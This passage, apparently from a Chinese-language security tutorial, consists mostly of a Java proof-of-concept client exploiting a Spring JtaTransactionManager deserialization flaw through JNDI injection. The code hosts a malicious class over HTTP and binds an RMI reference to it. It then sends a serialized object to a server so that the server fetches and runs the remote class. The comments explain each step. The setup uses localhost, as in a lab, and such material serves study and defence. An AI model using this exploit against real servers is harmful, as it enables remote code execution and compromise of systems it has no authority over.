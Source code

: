 ```java
}
```

然后创建一个 client 代码：

```java
public class ExploitClient {

    public static void main(String[] args) {
        try {
            String serverAddress = "127.0.0.1";
            int port = Integer.parseInt("1234");
            String localAddress= "127.0.0.1";

            System.out.println("Starting HTTP server");   //开启8080端口服务
            HttpServer httpServer = HttpServer.create(new InetSocketAddress(8080), 0);
            httpServer.createContext("/",new HttpFileHandler());
            httpServer.setExecutor(null);
            httpServer.start();

            System.out.println("Creating RMI Registry"); //绑定RMI服务到 1099端口 Object  提供恶意类的RMI服务
            Registry registry = LocateRegistry.createRegistry(1099);
            /*
            java为了将object对象存储在Naming或者Directory服务下，
            提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming和Directory服务下，
            比如（rmi，ldap等）。在使用Reference的时候，可以直接把对象写在构造方法中，
            当被调用的时候，对象的方法就会被触发。理解了jndi和jndi reference后，
            就可以理解jndi注入产生的原因了。
             */ //绑定本地的恶意类到1099端口
            Reference reference = new javax.naming.Reference("ExportObject","ExportObject","http://"+serverAddress+":8080"+"/");
            ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
            registry.bind("Object", referenceWrapper);

            System.out.println("Connecting to server "+serverAddress+":"+port); //连接服务器1234端口
            Socket socket=new Socket(serverAddress,port);
            System.out.println("Connected to server");
            String jndiAddress = "rmi://"+localAddress+":1099/Object";

            //JtaTransactionManager 反序列化时的readObject方法存在问题 //使得setUserTransactionName可控，远程加载恶意类
            //lookup方法会实例化恶意类，导致执行恶意类无参的构造方法
            org.springframework.transaction.jta.JtaTransactionManager object = new org.springframework.transaction.jta.JtaTransactionManager();
            object.setUserTransactionName(jndiAddress);
            //上面就是poc,下面是将object序列化发送给服务器，服务器访问恶意类
            System.out.println("Sending object to server...");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(socket.getOutputStream());
            objectOutputStream.writeObject(object);
            objectOutputStream.flush();
            while(true) {
                Thread.sleep(1000);
            }
        } catch(Exception e) {
            e.printStackTrace();
        }
    }
}
```
